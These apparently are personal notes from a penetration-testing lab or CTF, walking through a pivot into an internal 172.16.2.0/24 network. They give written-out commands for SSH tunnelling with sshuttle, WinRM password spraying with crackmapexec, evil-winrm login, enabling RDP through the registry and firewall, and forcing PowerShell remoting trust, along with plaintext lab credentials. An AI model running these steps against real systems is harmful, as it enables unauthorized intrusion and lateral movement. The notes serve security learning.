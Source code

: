 ```bash
ssh -D 1080 -N frank@172.16.1.10
sshuttle -r frank@172.16.1.10 172.16.2.0/24
```
frank Passwd: `TractorHeadtorchDeskmat`

From the words of a god on discord.
![[Pasted image 20211009221406.png]]

I still couldn't access the `2.101` from the firefox history.

So I tried a dumb thing by looking at this from varonis [AD enum](https://www.varonis.com/blog/pen-testing-active-directory-environments-part-introduction-crackmapexec-powerview/)

and got this and everything started to fall into its place.

```bash
crackmapexec winrm 172.16.2.0/24 -u administrator -p "KillEmAll!"
```

![[Pasted image 20211009221641.png]]

`evil-winrm -i  172.16.2.5 -u administrator -p "KillEmAll!"`

but we can't ssh into any machine from `winrm` so we try to rdp into it but it is blocked so we try to turn it on and then try again which worked.

Turning RDP on => https://pureinfotech.com/enable-remote-desktop-powershell-windows-10/

```
Set-ItemProperty -Path 'HKLM:\System\CurrentControlSet\Control\Terminal Server' -name "fDenyTSConnections" -value 0

Enable-NetFirewallRule -DisplayGroup "Remote Desktop"
```

We can see that we have `2.6, 2.101` in 2.5 through `arp -a`

After scanning properly(which I didn't) we find out that we have to we have to ssh into them. [[#172 16 2 101]] machine, [[#172 16 2 6]] machine

## One misconfig to rule them all...

We access a powershell session to `2.5` from `1.20`  or login via evil-winrm after doing sshuttle from `.10`

We force trust `2.5` and get the session

```PowerShell
Set-Item wsman:\localhost\client\TrustedHosts -Value 172.16.2.5 -Force
$cred = get-credential (login as administrator)
Enter-PSSession -ComputerName 172.16.2.5 -Credential $cred
```

![[Pasted image 20211006131654.png]]

We find a `jenkins.bat` file, we know `1.19` has jenkins login so we use the cred we find.
